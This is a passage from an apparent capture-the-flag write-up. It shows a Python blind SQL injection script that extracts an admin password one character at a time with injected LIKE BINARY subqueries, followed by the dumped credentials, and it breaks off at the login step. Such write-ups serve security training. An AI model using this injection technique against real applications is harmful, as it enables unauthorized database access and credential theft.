 ```python
    query = 'select count(*) from quiz.admin where username="admin" and password like binary "%' + temp_char + '%" limit 1'
    query = '\' or ({}) = 1 -- '.format(query)
    print(query)

    if (send_sqli(query)):
      charset += char
      print(char)
  return charset

def get_data():
  known = ''
  known_max_len = 20
  charset = get_charset()
  print(charset)
  while True:
    found_next = False
    for char in charset:
      temp_char = '\\' + char if char == '_' or char == '%' or char == '"' else char
      tmp_known = known + temp_char

      query = 'select count(*) from quiz.admin where username="admin" and password like binary "' + tmp_known + '%" limit 1'
      query = '\' or ({}) = 1 -- '.format(query)
      print(query)

      if (send_sqli(query)):
        known += char
        found_next = True
        print(known)
        break
    if (not found_next):
      print('Unable to find the next char, terminating')
      exit(0)
    elif (len(known) == known_max_len):
      print('Found the first {} chars: {}'.format(known_max_len, known))
      exit(0)

get_data()
```

When all payloads will be executed, we will get the database dump:
```
quiz
  admin
    id = 1
    password = S3creT_p4ssw0rd-$
    username = admin
```

Let's log in using the found credentials, and there will be the flag:

